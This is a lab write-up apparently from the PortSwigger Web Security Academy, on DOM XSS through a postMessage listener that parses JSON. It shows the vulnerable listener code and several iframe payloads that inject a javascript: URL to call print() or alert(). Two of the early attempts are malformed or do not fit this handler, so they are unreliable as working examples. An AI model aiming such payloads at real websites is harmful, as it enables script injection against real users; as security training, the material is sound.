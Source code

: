 # DOM XSS using web messages and

## This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function

```javascript
<script>
	window.addEventListener('message', function(e) {
		var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
		document.body.appendChild(iframe);
		try {
			d = JSON.parse(e.data);
		} catch(e) {
			return;
		}
		switch(d.type) {
			case "page-load":
				ACMEplayer.element.scrollIntoView();
				break;
			case "load-channel":
				ACMEplayer.element.src = d.url;
				break;
			case "player-height-changed":
				ACMEplayer.element.style.width = d.width + "px";
				ACMEplayer.element.style.height = d.height + "px";
				break;
		}
	}, false);
</script>
```

### HINT:

```json
{
  "type": "load-channel",
  "url": "javascript:print()"
}
```

### PAYLOAD:

```html
<iframe
  src="https://YOUR-LAB-ID.web-security-academy.net/"
  onload="this.contentWindow.postMessage('javascript:print();/*http:*/','*')"
></iframe>
```

change with hint:

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/"
onload="this.contentWindow.postMessage('{ "type" : "load-channel", "url":
"javascript:print()" }','*')">
```

### PAYLOAD:

rearrange

```html
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/
onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert()\"}","*")'>
```

```html
<iframe
  src="https://0a7e0027045264a7836d2adb00b800b3.web-security-academy.net/"
  onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'
></iframe>
```

